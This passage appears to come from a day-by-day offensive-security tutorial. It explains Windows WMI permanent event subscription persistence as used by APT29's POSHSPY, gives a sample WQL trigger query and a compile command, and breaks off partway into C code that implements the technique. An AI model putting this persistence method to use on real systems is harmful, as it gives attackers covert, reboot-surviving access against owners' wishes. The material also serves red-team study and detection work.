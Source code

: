 


##### Day 2:

## WMI Permanent Event Subscription Persistence Technique

Persistence techniques are used by attackers in order to maintain access on a compromised machine in case of a loss of the inital access vector. Procedures like this are used by most APTs and are displayed throughout various attacks. In particular this technique was utilized by APT 29 in a backdoor called POSHSPY. More details can be found here: `https://www.fireeye.com/blog/threat-research/2017/03/dissecting_one_ofap.html` in a writeup by FireEye. This technique using WMI Event Subscription is one that persists through reboots but requires adminstrator privileges. 

This Persistence Technique works by abusing the WMI service COM classes. There are three revelant WMI classes that are used in this technique. They are __**EventFilter**,**CommandLineEventConsumer** and __**FilterToConsumerBinding**. The Logic is that by using the EventFilter class you can set a Filter instance on certain Windows Events, and when that Event occurs it triggers the CommandLineEventConsumer class's instance which contains a command that will be executed. The last class FilterToConsumerBinding just ties both the filter instance and the consumer instance together so the event can trigger the consumer instance and execute malcious commands. In WMI selecting an event uses the WQL query language, which is a lot like SQL syntax. For example to place a filter on anytime a notepad process is created you can use, ***SELECT \* From InstanceCreationEvent WITHIN 5 WHERE TARGETINSTANCE ISA "Win32_Process" AND TARGETINSTANCE.NAME="notepad.exe"***.
The above query translates to select all events from the __InstanceCreationEvent class within the polling interval of 5 seconds where the TargetInstance object is a Win32_Process and its name is notepad.exe.This checks if there any changes in the Win32_Process class that are named notepad.exe and returns them.You can use WQL to trigger on almost any Windows Event imaginable ranging from CD-ROMs to keyboard strokes using the CIMWin32 Provider and its numerous classes.

C Code: Ported into C from MDsec's article on this topic: `https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/`  (Used CommandLineEventConsumer instead of ActiveScriptEventConsumer)

Compile with this command: `gcc WmiSub.c -o Wmisub.exe -lole32 -loleaut32 -lwbemuuid`

If you run this code, all it does is make a test file saying success in your C Drive, after you open notepad.exe.

```c
#define _WIN32_DCOM
#include <wbemidl.h>
#include <windows.h>
#include <oleauto.h>
#include <stdio.h>

static CLSID CLSID_IWbem ={0x4590f811, 0x1d3a, 0x11d0, 0x89,0x1f, 0x00,0xaa,0x00,0x4b,0x2e,0x24};
static CLSID IID_IWbem ={0xdc12a687, 0x737f, 0x11cf, 0x88,0x4d, 0x00,0xaa,0x00,0x4b,0x2e,0x24};

int main(int argc,int **argv){

    IWbemLocator *pObject=NULL;
    IWbemServices *pServices =NULL;
    IWbemClassObject *pFilter=NULL;
    IWbemClassObject *pConsumer=NULL;
    IWbemClassObject *pBinder=NULL;
    IWbemClassObject *pBinderInstance=NULL;
    IWbemClassObject *pFilterInstance=NULL;
    IWbemClassObject *pConsumerInstance=NULL;
    BSTR resource =SysAllocString(L"ROOT\\SUBSCRIPTION");
    BSTR consumerclass=SysAllocString(L"CommandLineEventConsumer");
    BSTR filterclass =SysAllocString(L"__EventFilter");
    BSTR binderclass=SysAllocString(L"__FilterToConsumerBinding");
    HRESULT hres;
    //1.Initialize COM
    hres=CoInitializeEx(0,COINIT_MULTITHREADED);
    if (FAILED(hres)){
```